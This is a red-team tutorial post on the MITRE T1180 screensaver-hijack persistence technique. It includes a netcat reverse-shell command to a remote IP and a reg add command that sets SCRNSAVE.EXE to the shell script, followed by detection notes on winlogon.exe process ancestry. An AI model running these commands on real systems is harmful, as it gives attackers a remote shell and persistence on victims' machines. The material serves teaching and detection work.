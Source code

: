 ```yaml
---
layout: post
title: "t1180 screensaver hijack"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1180-screensaver-hijack/
---
```


---
layout: post
title: "t1180 screensaver hijack"
date: 2024-06-18
categories: persistence
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1180-screensaver-hijack/
---

---
description: Hijacking screensaver for persistence.
---

# Screensaver Hijack

## Execution

To achieve persistence, the attacker can modify `SCRNSAVE.EXE` value in the registry  `HKCU\Control Panel\Desktop\` and change its data to point to any malicious file.&#x20;

In this test, I will use a netcat reverse shell as my malicious payload:

{% code title="c:\shell.cmd@victim" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode %}

Let's update the registry:

![](../../.gitbook/assets/screensaver-registry.png)

The same could be achieved using a native Windows binary reg.exe:

{% code title="attacker@victim" %}
```bash
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d c:\shell.cmd
```
{% endcode %}

![](../../.gitbook/assets/screensaver-reg.png)

## Observations

Note the process ancestry on the victim system - the reverse shell process traces back to winlogon.exe as the parent process, which is responsible for managing user logons/logoffs. This is highly suspect and should warrant a further investigation:

![](<../../.gitbook/assets/screensaver-shell (1).png>)

![](../../.gitbook/assets/screensaver-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1180" %}

@spotheplanet
